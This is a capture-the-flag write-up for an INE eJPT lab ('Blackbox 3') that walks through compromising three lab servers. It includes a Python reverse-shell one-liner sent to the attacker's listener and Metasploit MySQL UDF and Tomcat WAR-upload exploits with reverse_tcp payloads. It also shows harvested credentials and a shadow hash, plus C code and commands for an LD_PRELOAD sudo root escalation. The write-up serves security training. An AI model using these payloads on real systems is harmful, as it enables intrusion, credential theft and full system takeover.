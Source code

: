 ```yaml
---
title: "[eJPT] INE Blackbox 3"
author: Tri Nguyen
date: 2022-01-12 17:00:00 -0700
categories: [CTF, Write Up]
tags: [ctf, write-up, ine, ejpt]
---
```


# INE Blackbox 3

- Our machine: 192.246.198.2

## Enumeration 1:

- Target: server1.ine.local = 192.246.198.3

- Nmap: `nmap -sT -P0 192.246.198.3` ---> Port 80 opens.

- Go to the server on our browser you will see a message: `Debugger has turned on.  Please visit /console for the debugger`

- Go to 192.246.198.3/console ---> You can run Python code on this.

- I use payload:

```python3
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.246.198.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

- ** Alternatively ** You can exploit this server using Metasploit's `exploit/multi/http/werkzeug_debug_rce` to gain a direct Meterpreter

- We can't use msfvenom to craft a payload to upgrade our shell. Instead, background the current shell session by using Ctrl+Z. Then search for `shell_to_meterpreter` module. Set the SESSION option to 1 (which is our reverse shell) ---> Run and we receive the upgraded meterpreter shell on session 2.

- Next I tried to move on to the second machine but can't exploit MySQL. Hmm maybe we still have some information in the first machine we can further exploit.

- Some interesting post exploitation module for linux can be found here https://www.infosecmatter.com/post-exploitation-metasploit-modules-reference/. I used: (please use more if you're actually exploiting targets)

```
post/linux/gather/enum_system	
post/linux/gather/enum_users_history	
```

- Nothing interesting in enum_system, you can see a bunch of users.

- When enumerating user history, notice that we can see user history of user `auditor`:

```
[+] bash history for auditor stored in /root/.msf4/loot/20220113024628_default_192.246.198.3_linux.enum.users_769960.txt
```

- Let's have a look. If you look through the log, there are some interesting information:

```
mysql -h 192.246.198.4 -u root -pfArFLP29UySm4bZj
bin/mysqladmin -u root password 'new-password'
```

- Hey, 192.246.198.4 is our second target! And with a Nmap scan, it's only a database server. Let's connect to it using `root:pfArFLP29UySm4bZj`

# Enumeration 2

- I tried manually enumerating this mysql server but nothing prevails. 

- Looking into exploiting with Metasploit to somehow gain a shell.. Hmm.

- Some failed attempts but eventually you need to use this module:

```
22  exploit/multi/mysql/mysql_udf_payload  2009-01-16  excellent  No   Oracle MySQL UDF Payload Execution
```

```
Module options (exploit/multi/mysql/mysql_udf_payload):

   Name              Current Setting   Required  Description
   ----              ---------------   --------  -----------
   FORCE_UDF_UPLOAD  true              no        Always attempt to install a sys_exec() mysql.function.
   PASSWORD          fArFLP29UySm4bZj  no        The password for the specified username
   RHOSTS            server2.ine.local yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             3306              yes       The target port (TCP)
   SRVHOST           0.0.0.0           yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT           8080              yes       The local port to listen on.
   SSL               false             no        Negotiate SSL for incoming connections
   SSLCert                             no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                             no        The URI to use for this exploit (default is random)
   USERNAME          root              no        The username to authenticate as


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.246.198.2    yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux
```

- Actually my Hera lab instance failed and giving weird bug so I refreshed it. 

- ACTUALLY I noticed the correct credential should be `fArFLP29UySm4bZj` without the first letter `p`....

- We FOUND the flag in /root/flag.txt: `4c537c0dfd18bafdcd59f53c7015550e`

# Enumeration 3

- Nmap-ing server3.ine.local:

```
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
```

- Let's go to our browser to have a look. Dirb this webserver!

```
---- Scanning URL: http://server3.ine.local:8080/ ----
+ http://server3.ine.local:8080/docs (CODE:302|SIZE:0)                         
+ http://server3.ine.local:8080/examples (CODE:302|SIZE:0)                     
+ http://server3.ine.local:8080/host-manager (CODE:302|SIZE:0)                 
+ http://server3.ine.local:8080/index.html (CODE:200|SIZE:262)                 
+ http://server3.ine.local:8080/manager (CODE:302|SIZE:0)
```

- Go to docs we foundout they are using `tomcat 8.0.53`. I tried using `exploit/multi/http/tomcat_jsp_upload_bypass` but it wasn't working.

- Next I use `auxiliary/scanner/http/tomcat_mgr_login` set RHOSTS to `server3.ine.local`.

- Found the credentials of `tomcat:s3cret`

- Now we exploit the WAR upload function of Tomcat Manager. We use `exploit/multi/http/tomcat_mgr_upload`:

```
Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting    Required  Description
   ----          ---------------    --------  -----------
   HttpPassword  s3cret             no        The password for the specified username
   HttpUsername  tomcat             no        The username to authenticate as
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        server3.ine.local  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         8080               yes       The target port (TCP)
   SSL           false              no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /manager           yes       The URI path of the manager app (/html/upload and /undeploy will be used)
   VHOST                            no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.246.198.2    yes       The listen address (an interface may be specified)
   LPORT  7777             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal
```

- FLAG1 is at /opt/tomcat: `EBCFE35ACC27E0EA91CF3A5AB600BABE`

- cat /etc/shadow gives us: `robert:$6$D4O99Z5L$Q38CW.ym42GmIbjZRh8DA2rtLHxXgMj.ahVbrBrbWvuBXmP555cGuLG1hkQE1R0eQVX48Rs7yecdU7V96u5Tf0:17822::::::`

- Enumerating the tomcat's `conf` folder we can see `conf.tar.gz`. `tar -xf conf.tar.gz; cd conf; cat tomcat-users.xml` we can see robert's password. (OR we could have crack the password hash)

- `robert:robert@1234567890!@#`

- Now we ssh to the machine! FLAG2: `EC2986081E84BB845541D5CC0BEE13B3`

- We spawn a TTY shell: `python -c 'import pty; pty.spawn("/bin/sh")'`

- By using `sudo -l` we know that robert can use `ls` as root. `ls /root` shows that there is a third flag FLAG3

- Also `env_keep+=LD_PRELOAD` is present! Time to escalate some privilege.

- Write shell.c with vim with the following content:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```

- Then compile it using: `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

- Finally: `sudo LD_PRELOAD=/home/robert/shell.so ls`

- FLAG3: `560648FC63F090A8CF776326DC13FAC7`

